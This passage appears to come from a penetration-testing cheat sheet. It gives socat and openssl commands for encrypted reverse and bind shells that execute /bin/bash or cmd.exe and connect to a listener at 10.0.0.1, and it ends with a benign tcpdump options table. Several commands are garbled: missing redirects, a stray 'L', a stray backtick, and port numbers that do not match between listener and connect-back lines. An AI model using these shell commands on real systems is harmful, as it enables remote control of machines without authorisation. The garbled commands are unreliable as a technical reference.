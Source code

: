 ### Set up encrypted reverse shell
*Generate a certificate*

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

*Merge the 2 created files into .pem extension*

`cat shell.key shell.crt shell.pem`

*Set up listener on local machine*
```
socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0
socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT
```

*Connect back to listener*
```
socat OPENSSL:10.0.0.1:4443,verify=0 EXEC:/bin/bash [LINUX]
socat OPENSSL:10.0.0.1:4443,verify=0 EXEC:'cmd.exe',pipes [WINDOWS]
```

### Set up encrypted bind shell
*Generate a certificate*
```
openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -subj '/CN=www.mydom.com/O=My Company Name LTD./C=US' -out bind.crt`
```
*Merge the 2 created files into .pem file*

`cat bind.key bind.crt L bind.pem`

*Set up a listener on target machine*
```
socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:'cmd.exe',pipes [WINDOWS]
socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:/bin/bash [LINUX]
```

*Connect back to listener*
```
socat OPENSSL:10.0.0.1:4444,verify=0
socat - OPENSSL:10.0.0.130:4443,verify=0
```

## TCPdump
### Useful options
| Options | Description |
| ------- | ----------- |
| tcpdump -i any | Capture packets from any interfaces. "any" can be change accordingly to interfaces name. |
| tcpdump -i eth0 icmp | Capture packets of ICMP protocol from eth0 interface. |
| tcpdump port 80 | Capture packets coming from port 80(HTTP) from any interfaces. |
| tcpdump -D | Show available interfaces |
| tcpdump -i any -A | Print output in Ascii |
| tcpdump -i eth0 tcp/udp | Capture TCP/UDP packets only |
| tcpdump -i eth0 -c 10  | Capture first 10 packets only. |
| tcpdump -i any -w network.pcap | Save output to a file. |
| tcpdump host 192.168.1.100 | Capture packets from a specific host. |
